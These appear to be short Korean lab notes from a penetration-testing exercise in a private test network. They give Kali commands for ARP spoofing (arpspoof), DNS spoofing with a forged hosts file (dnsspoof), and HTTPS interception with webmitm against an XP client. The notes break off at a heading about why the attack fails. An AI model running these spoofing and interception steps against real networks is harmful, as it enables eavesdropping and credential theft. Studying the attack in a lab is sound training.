 root@KH200-kali:~# vim /etc/network/interfaces

```
auto eth0
iface eth0 inet static
address 172.16.10.100
gateway 172.16.10.254
netmask 255.255.255.0
dns-nameservers 168.126.63.1 168.126.63.2
~                                            
```

root@KH200-kali:~# /etc/init.d/networking restart

하면 IP 안바뀜.. 이건 IP 바꿀 때 마다 리붓해줘야함 -> 리붓해주기

root@KH200-kali:~# vim /etc/resolv.conf -> 이것도 리붓할때 마다 다시 입력해야함..

```
nameserver 172.16.10.50
nameserver 168.126.63.1

```



nslookup -> www.pentest.co.kr -> 172.16.10.50 나오는거 확인

root@KH200-kali:~# arpspoof -i eth0 -t 172.16.10.10 172.16.10.50



탭2

vim dnsspoof.txt

```
172.16.10.100 www.pentest.co.kr
```

dnsspoof -i eth0 -f dnsspoof.txt



###### XP

cmd -> nslookup -> www.pentest.co.kr 해서 172.16.10.50 Non-author 은 172.16.10.100 나오는지 확인



###### 옛날 칼리

탭3

webmitm



###### XP

인터넷 -> https://www.pentest.co.kr -> 보안경고 창 뜨면 인증서 보기 눌러서 



### 안되는 이유 
